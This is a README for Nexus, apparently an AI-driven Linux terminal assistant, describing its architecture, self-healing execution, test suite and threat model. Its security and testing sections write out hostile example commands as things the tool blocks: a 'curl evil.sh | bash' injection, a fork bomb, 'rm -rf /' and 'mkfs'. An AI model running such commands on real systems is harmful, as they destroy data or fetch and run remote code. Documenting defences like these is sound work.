







# Nexus - AI-Powered Linux Assistant

**Nexus** is an intelligent, terminal-based Linux assistant that combines multiple AI models, memory systems, and automation capabilities to help you manage your system, browse the web, and execute complex tasks through natural language.

## Key Features

- **Multi-Brain AI Architecture** - Specialized models for different tasks
- **Autonomous Web Browsing** - Automated tasks with browser-use
- **Persistent Memory** - RAG-based context retention with Supermemory
- **Self-Healing Execution** - Auto-fix failed commands and auto-failover LLM routing
- **Resilient Command Generation** - Retries transient API errors (429, timeouts) per provider, then falls back to alternate models; empty replies do not block the chain
- **Intelligent Intent Recognition** - Context-aware decision making (including **DIRECT_EXECUTE** for simple one-shot shell tasks)
- **Security First** - AST-based defensive command validation, strict `rm -rf /` detection (without false positives on `/tmp/...` or wrapped lines), and user confirmation
- **Ephemeral Azure Sandboxing** - User-controlled cloud sandbox for running untrusted or risky commands safely

### Maturity snapshot (March 2026)

Nexus is best described as **production-leaning for a power-user TUI**: the execution stack (planner, executor, security gate, audit log, self-heal loop, LLM fallbacks) is **well tested** (**182** automated `pytest` cases) and hardened from real failure modes (rate limits, bad JSON plans, sudo/interactive edge cases). Remaining risk is mostly **product** surface area: no automatic rollback checkpoints yet, `FILE_WRITE` always **replaces** whole files (no first-class append/patch action), and plans are still sequential. For **AppImage + desktop integration**, the planner encodes a full procedure (extract, icon, `FILE_WRITE` `.desktop`, `update-desktop-database`, Electron `--no-sandbox`); extraction of large images can take many minutes and is supported with an extended subprocess timeout.

## Architecture Overview

Nexus follows a modular, multi-brain architecture where different AI models handle specialized tasks:



## AI Model Usage Map

Nexus uses different AI models for different purposes, creating a specialized "multi-brain" system:

| Component | Model Used | Purpose | Why This Model? |
|-----------|------------|---------|-----------------|
| **Router / Decision Engine** | **Groq: Kimi K2** (`moonshotai/kimi-k2-instruct-0905`) | Fast intent classification & routing | Ultra-fast inference (Groq), robust decision framework |
| **Chat Brain** | **OpenRouter: GPT** (default) or **Groq: Kimi** | Natural language conversations | Best reasoning & context understanding |
| **Command Generator** | Primary LLM Client | Convert natural language → shell commands | Strong code generation capabilities |
| **Task Planner** | Primary LLM Client | Break complex tasks into steps | Strategic thinking & planning with smart CHECK logic |
| **Browser Agent** | **Gemini Flash** (`gemini-flash-latest`) | Web automation & navigation | Vision support + fast inference for UI understanding |
| **Search Tool** | **Gemini 2.5 Flash** | Web search with citations | Native Google Search integration |

### Model Priority & Auto-Failover System

Nexus implements a robust failover chain for critical components to ensure maximum uptime, seamlessly bypassing API rate limits (e.g. 429 errors from free-tier models).



## System Flow Diagrams

### 1. User Input Processing Flow



### 2. Complex Task Orchestration Flow



### 3. Dual-Stage Self-Healing Execution Flow

Nexus employs a resilient two-stage self-healing system that attempts to recover failing commands up to 3 times before safely halting to prevent system corruption.



### 3.5 Ephemeral Azure Sandboxing (`AZURE_RUN`)

Nexus includes an **interactive, user-controlled cloud sandbox** powered by Azure Container Instances. Instead of silently routing commands to the cloud, Nexus flags commands that *could* fetch or execute external code and gives you an explicit choice.

**Trigger keywords:** `git clone`, `wget`, `curl`, `bash -c`, `sh -c`, `tar -x`, `make install`, `./configure`

**What you see when a flagged command is about to run:**

```
⚠️  Security Alert: This command fetches or compiles external code.
Command: git clone https://github.com/some-repo.git

Do you want to securely sandbox this in Azure instead of running it locally? (y/N):
```

- **Enter (No)** → Runs directly on your local machine as normal. Use this for trusted repos like every day.
- **`y` (Yes)** → Nexus hot-swaps the action to `AZURE_RUN`:



**Design principle:** Nexus does not decide if something is "sketchy" for you. It acts as a firewall checkpoint — you stay in control.

### True Capacity: The DevOps & Sysadmin Engine

Nexus isn't just a chatbot; it runs in **completely isolated environments** utilizing powerful, one-liner sysadmin tools.

*   **Docker Mastery:** Ask Nexus to *"keep docker tidy"* or *"kill all exited containers"*. It understands how to pipe `docker ps -q` to `docker rm` and uses `pkill` reliably.
*   **Service Management (`SERVICE_MGT`):** When interacting with systemd/services (e.g. *"restart nginx"*), Nexus executes the restart and then *automatically* runs `systemctl status` in the background to ensure it didn't crash on boot—skipping to self-healing if the check fails.
*   **Safe Failure:** If self-healing a step fails 3 times, **Nexus deliberately stops execution**. It refuses to stumble blindly into the next step of a plan if the preceding requirements weren't met, preserving the integrity of your Linux system.

### 4. Memory System Integration



## Component Details

### AI Clients (`src/jarvis/ai/`)

#### `llm_client.py` - LLM Abstraction Layer
- **`LLMClient`** (Abstract Base): Memory integration, prompt enrichment
- **`GoogleGenAIClient`**: Gemini models with Google Search grounding
- **`OpenRouterClient`**: Access to GPT models via OpenRouter
- **`GroqClient`**: Ultra-fast inference for routing decisions
- **`MockLLMClient`**: Fallback when no API keys configured

#### `command_generator.py` - Natural Language → Shell Commands
- Converts user requests to executable shell commands
- Uses RAG to retrieve proven solutions from memory
- **Retries** transient provider failures on the same model (with backoff), then tries **fallback** clients; treats empty model output as retryable
- Implements safety guidelines and idempotency principles (`SafetyCheck` before return)

#### `decision_engine.py` - Intent Classification
- **Fast Path**: Regex-based heuristics for common commands
- **Slow Path**: LLM-based intent analysis with robust examples
- Routes to: COMMAND, CHAT, PLAN, SEARCH, BROWSE

#### `memory_client.py` - Supermemory Integration
- Stores: System context, command feedback, successful plans, user preferences
- Retrieves: Relevant context for RAG-enhanced prompts
- Enables learning from past successes/failures

### Core Systems (`src/jarvis/core/`)

#### `orchestrator.py` - Multi-Step Task Execution
- **Planner**: Breaks complex requests into steps (CHECK → BROWSER → TERMINAL → FILE_WRITE / FILE_READ / FILE_SEARCH / …)
- **Smart Resume**: Checks if files already exist before downloading
- **Self-Healing**: Auto-fixes failed commands using LLM reflection (plus fast local heuristics for common install/path errors)
- **FILE_WRITE**: Writes **full file contents** (overwrite). Paths under your **home directory** use Python `write_text` (no sudo); **system paths** use `sudo mkdir -p` + `sudo tee`. Failed writes retry once with mkdir / sudo (see self-heal block). There is **no** `FILE_APPEND` yet — to append (e.g. a line in `~/.zshrc`), the planner typically uses a **TERMINAL** step (`echo '…' >> ~/.zshrc`) which is subject to normal shell safety checks and confirmation.
- **AppImage / desktop flow (planner-guided)**: chmod + copy to `~/.local/bin`, **`--appimage-extract`** inside **`mktemp -d /tmp/nexus-appimg.XXXXXX`** (avoids `squashfs-root` collisions across concurrent plans), copy icon, **`FILE_WRITE`** a fresh `~/.local/share/applications/*.desktop` (not the squashfs copy — wrong `Exec`/`Icon`), **`update-desktop-database`**, and for Electron/Chromium bundles **`--no-sandbox`** on `Exec=`. Residual gap: icons remain best effort from a shallow `find`.
- **Live UI**: Real-time progress tracking with Rich tables

#### `executor.py` & `security.py` — Safe Command Execution
- **AST-Based Command Validation**: Deep analysis of shell syntax to catch obfuscated attacks (e.g. `eval`, `cd / && rm -rf *`).
- Strict blacklist filtering (blocks `rm -rf /`, `mkfs`, fork bombs `:(){ :|:& };:`).
- User confirmation mandatory for dangerous or `sudo` operations.
- **Scoped `shell=True`**: Only activates when genuine pipeline operators (`&&`, `|`, `;`, `>`) are detected — prevents injection when the command is a simple binary call.
- **Zeroized sudo password**: Stored as `bytearray` in memory and byte-by-byte zeroed on auth failure — never held as a Python `str` that GC might retain.
- **Persistent Audit Log** (`~/.nexus/audit.log`, chmod 600): Every executed, skipped, or rejected command is logged with timestamp, return code, user-confirmed Y/N, and stdout/stderr excerpts.
- Dry-run mode support.

#### `config_manager.py` - Configuration Management
- Stores API keys, preferences in `~/.config/jarvis/config.json`
- Environment variable overrides
- Onboarding state tracking

#### `system_detector.py` - OS Detection
- Detects: Ubuntu, Debian, Fedora, Arch, etc.
- Identifies package manager: apt, dnf, pacman
- Provides system context to AI models

### Modules (`src/jarvis/modules/`)

#### `browser_manager.py` - Web Automation
- **Local Mode**: `browser-use` library with Playwright (headless=false for live view)
- **Cloud Mode**: BrowserUse SDK for headless execution
- Smart download handling (~/Downloads tracking)
- Uses Gemini Flash for vision-based UI understanding

#### `package_manager.py` - System Package Management
- Unified interface for apt/dnf/pacman
- Install, remove, update operations
- Automatic sudo handling

### UI Layer (`src/jarvis/ui/`)

#### `console_app.py` — Terminal User Interface
- **Rich Console**: Panels, tables, markdown rendering
- **Prompt Toolkit**: Async input with syntax highlighting
- **Persistent Session** (`~/.nexus/session.json`): Context-aware responses that survive restarts; last 24h of history restored on launch
- **Command Handlers**: `/browse`, `/search`, etc.

#### `onboarding.py` - First-Run Setup
- Collects API keys (Google, OpenRouter, Groq)
- Configures Supermemory integration
- Saves to config file

## Installation

### Prerequisites
- Python 3.10 or higher
- Supported OS: Ubuntu, Debian, Fedora, Arch Linux

### Setup

1. **Clone the repository**:
```bash
   git clone <repository-url>
   cd nexus
```

2. **Create virtual environment**:
```bash
   python3 -m venv .venv
   source .venv/bin/activate
```

3. **Install package with all dependencies**:
```bash
   pip install -e ".[all]"
```

   > **What `[all]` installs:** Core TUI + AI providers (Google Gemini, OpenAI, LangChain) + browser automation (Playwright). This is what you need for full functionality.

   > **Optional extras (for specific use cases):**
   > ```bash
   > pip install -e ".[ai]"      # Core + AI providers only (no browser)
   > pip install -e ".[browser]" # Core + browser automation only
   > pip install -e ".[dev]"     # Core + pytest (for running tests, no AI/browser)
   > pip install -e "."          # Core only (TUI shell, no AI or browser)
   > ```

4. **Install Playwright browsers** (required for web automation):
```bash
   playwright install chromium
```

5. **Configure API keys**:
```bash
   cp .env.example .env
   # Edit .env and add your API keys
```

6. **Run onboarding** (first-time only):
```bash
   nexus
```

### Global Access

Add to `~/.bashrc` or `~/.zshrc`:
```bash
alias nexus='/path/to/nexus/.venv/bin/nexus'
```

## Usage

### Interactive Mode (TUI)
```bash
nexus
```
Launches the full Terminal UI with decision engine, memory, and all features.

### CLI Commands

#### Chat
```bash
nexus chat "How do I check disk space?"
```

#### Package Management
```bash
nexus install htop
nexus remove firefox
nexus update
```

#### Natural Language Execution
```bash
nexus do "find all python files larger than 1MB"
```

#### Browser Automation
```bash
nexus browse "Find MrBeast on YouTube"
nexus browse --cloud "Download latest Chrome .deb"
```

#### Web Search
```bash
nexus search "best restaurants in Dubai"
```

## Testing

Nexus ships with **182 automated pytest tests** across 10+ test files, covering every critical code path. Run them anytime:

```bash
# Install dev dependencies (first time only)
pip install -e ".[dev]"

# Run all tests
pytest

# Run with verbose output
pytest -v

# Run a single test file
pytest tests/test_executor.py -v
```

### Test Coverage Map

#### `tests/test_security.py` — 27 tests
**What it checks:** The `CommandValidator` and `SafetyCheck` layer that sits before every command execution.

| Test Group | Checks |
|---|---|
| `TestCommandValidatorBlocked` | `rm -rf /` and fork bombs are hard-blocked and return `is_valid=False` |
| `TestCommandValidatorWarnings` | `curl ... \| sh` is allowed but raises a warning; `ls` has zero warnings |
| `TestCommandValidatorSyntax` | Mismatched quotes and unbalanced parentheses are caught as syntax errors |
| `TestSafetyCheckIntegration` | `SafetyCheck.check_command()` raises `SecurityViolation` on blocked commands, returns `True` on safe ones |
| `TestSudoDetection` | `apt`, `systemctl`, writing to `/etc/` are correctly flagged as requiring sudo; `chmod` on user paths is not forced interactive |
| `TestRmRfHeuristics` | `rm -rf /tmp/...` and similar are **not** misread as `rm -rf /`; newline after `/` does not false-positive |
| `TestPathWithinRoots` | File read/write allowlists use proper path subtrees (e.g. `/home/user2` is not under `/home/user`) |

**Why it matters:** This is the last line of defence against AI-hallucinated destructive commands. If this breaks, Nexus could execute `rm -rf /` without user confirmation.

---

#### `tests/test_audit_logger.py` — 8 tests
**What it checks:** The forensic audit log written to `~/.nexus/audit.log`.

| Test Group | Checks |
|---|---|
| `TestAuditLogCreation` | Log file is created on construction; file permissions are `0o600` (owner-only read/write) |
| `TestAuditLogEntries` | Successful commands log `STATUS=OK`; failures log `STATUS=FAIL(rc)`; unconfirmed logs `CONFIRMED=NO(auto)`; stdout excerpts are included; skipped commands log `STATUS=SKIPPED`; multiple entries append correctly |

**Why it matters:** The audit log is the only tamper-evident record of what Nexus ran on your machine. These tests guarantee: (1) the log file is private — other users on a shared machine can't read it, (2) every code path (success, failure, skip) leaves a trace, (3) you can always reconstruct what happened if something breaks.

---

#### `tests/test_executor.py` — 18 tests
**What it checks:** The `CommandExecutor` — the central class that runs every shell command.

| Test Group | Checks |
|---|---|
| `TestExecutorSafeCommands` | `echo` returns RC=0 and correct stdout; `false` returns RC≠0; pipelines work |
| `TestExecutorBlockedCommands` | `rm -rf /` and fork bombs return RC=-1 without executing; blocked commands write SKIPPED to audit log |
| `TestExecutorDryRun` | Dry-run returns RC=0 without touching disk; `touch` doesn't create a file; audit log shows SKIPPED |
| `TestExecutorAuditIntegration` | Successful and failed executions both write entries to the audit log |
| `TestExecutorSudoPasswordClearing` | `bytearray` is zeroed on auth failure (`incorrect password` in stderr); password cache is never a plain `str` |
| `TestShellModeScoping` | Simple commands use `shell=False` + list args; commands with `\|` use `shell=True` + string |

**Why it matters:** The executor is the most security-critical component — it's where commands actually run. The `shell=True` scoping test is particularly important: it verifies that a prompt like `ls /tmp` can't be silently turned into `ls /tmp; curl evil.sh | bash` through shell expansion.

---

#### `tests/test_planner.py` — 12 tests
**What it checks:** The `Planner` class that converts natural language into structured `TaskStep` lists.

| Test Group | Checks |
|---|---|
| `TestPlannerParsing` | Valid JSON produces correct `TaskStep` objects with right fields; multi-step plans parse all steps; IDs are sequential (1, 2, 3…); malformed JSON returns `[]`; markdown code fences (` ```json `) are stripped before parsing |
| `TestPlannerFallback` | Fallback LLM client is tried when primary raises an exception; all clients failing returns `[]`; `time.sleep` is called with a delay ≥ 2.0s between attempts (exponential backoff) |

**Why it matters:** If the Planner silently returns a broken plan (wrong step types, missing commands), the orchestrator will execute garbage. The markdown fence test caught a real bug — LLMs sometimes wrap JSON in code blocks that need stripping. The backoff test verifies that a 429 rate-limit doesn't cause all fallback clients to be hammered simultaneously.

---

#### `tests/test_decision_engine.py` — 13 tests
**What it checks:** The `DecisionEngine` — Nexus's "brain" that classifies user input into intents.

| Test Group | Checks |
|---|---|
| `TestHeuristicFastPath` | `"update"`, `"install git"`, `"remove nginx"`, `"uninstall docker"` resolve without calling the LLM (asserts `generate_response` was never called); `"Install Vim"` works case-insensitively |
| `TestSlowPathLLM` | Ambiguous inputs like `"keep docker tidy"` fall through to the router LLM; the returned action from the LLM is used |
| `TestSessionContextAwareness` | When session manager returns recent context, `SHOW_CACHED` is returned immediately (no LLM call); when context is `None`, the engine falls through normally |

**Why it matters:** The fast-path tests guarantee that common commands never waste an LLM API call (100ms → <1ms). The slow-path tests ensure that ambiguous requests don't silently default to the wrong action. The session tests verify that Nexus correctly answers "what did you just do?" from memory rather than re-querying the AI.

---

#### `tests/test_config_manager.py` — 13 tests
**What it checks:** Config persistence, environment variable overrides, corrupted file recovery, and file permissions.

#### `tests/test_session_manager.py` — 29 tests
**What it checks:** Turn tracking, history trimming, context reference detection (pronouns, temporal markers), semantic relatedness filtering to prevent false-positive cache hits, and session summary generation.

#### `tests/test_command_generator.py` — 16 tests
**What it checks:** LLM response cleanup (markdown fences, backticks, whitespace), SafetyCheck validation on generated commands, memory integration (RAG query + feedback storage), and **fallback / retry** behavior (429-style errors, empty responses, deduped clients).

#### `tests/test_llm_client.py` — 11 tests
**What it checks:** Base `LLMClient` prompt enrichment (memory prepend, skip, double-enrichment guard, exception handling), `MockLLMClient` fallback, and `search()` raising `NotImplementedError`.

#### `tests/test_package_manager.py` — 22 tests
**What it checks:** Package name validation (rejects shell injection via `;`, `|`, `` ` ``, `$()`), correct install/remove/update commands for APT/DNF/Pacman, and graceful handling of unknown package managers.

#### `tests/test_orchestrator.py` — 19 tests
**What it checks:** Missing binary extraction (4 regex patterns), self-healer (`_PKG_ALIAS` mapping, injection protection, LLM fallback, UNFIXABLE handling), plan view rendering, and `execute_plan` (empty plan, user cancellation, terminal step execution).

---

### CI / Continuous Integration

Tests run automatically on every push via GitHub Actions (`.github/workflows/ci.yml`):
- Python **3.10**, **3.11**, **3.12** (matrix build)
- `[dev]` and `[all,dev]` extras tested in CI
- **Lint job**: `ruff check`, `ruff format --check`, `pip-audit --strict`
- Branches: `main`, `mvp`

## Advanced Features

### Memory System
Nexus remembers:
- **System Context**: OS, package manager
- **Command Feedback**: Success/failure of past commands
- **Proven Plans**: Multi-step tasks that worked
- **User Preferences**: Learned from interactions

### Multi-Step Task Planning
Example: "Install Postman"
1. **CHECK**: `which postman` (idempotency)
2. **BROWSER**: Download from official site
3. **TERMINAL**: Extract and install

### Self-Healing & Fallback Execution
Nexus is built to gracefully handle failures at both the software and API level:
1. **Auto-Failover LLM Routing with Backoff**: If the primary AI model hits a rate limit (429) during planning, Nexus waits `2^n + jitter` seconds (exponential backoff) before routing to the next fallback model (e.g., OpenRouter → Groq → Gemini) — prevents cascade failures under burst load.
2. **3-Attempt AI Self-Healer**: If a terminal command fails, Nexus suspends the Live UI, passes `stderr/stdout` to `reflect_and_fix` (LLM acting as Senior DevOps Engineer), retries the healed command, and on continued failure feeds the error from *each attempt* back to the AI with accumulated context for deeper diagnosis. If the AI returns `UNFIXABLE`, the plan halts cleanly.
3. **SERVICE_MGT Action**: A dedicated step type for service management (`systemctl start/restart`) that automatically runs `systemctl is-active` after execution to confirm the service is actually up before marking the step as success.

### Smart Download Tracking
- Monitors `~/Downloads` for new files
- Filters out `.crdownload`, `.part`, `.tmp`
- Injects filenames into subsequent commands

## Security

### Threat Model — What Nexus Defends Against

| Attack Surface | Threat | Defence |
|---|---|---|
| **LLM-generated commands** | AI hallucinates a destructive command (`rm -rf /`) | AST parser + blacklist hard-blocks it before any execution |
| **Shell injection** | Crafted input turns a simple command into `cmd; curl evil.sh \| bash` | `shell=True` only enabled when genuine pipeline operators detected; otherwise `shlex.split()` list is used |
| **Sudo privilege abuse** | Cached password reused across untrusted commands | Password stored as `bytearray`, zeroed byte-by-byte on auth failure; never a plain Python string |
| **Unseen command execution** | Agent runs commands user never approved | Mandatory user confirmation gate on every execution; every decision logged to `~/.nexus/audit.log` |
| **Audit evasion** | Attacker covers tracks by deleting session data | Audit log is separate from session (`audit.log` vs `session.json`), `chmod 600`, append-only via Python logging |
| **API key leakage** | Keys logged in debug output or stack traces | No debug prints in production paths; keys read from env/config, never echoed |
| **Indefinite hangs** | Malformed command hangs the subprocess forever | Configurable timeout (default 120s) on all `subprocess.run` calls |
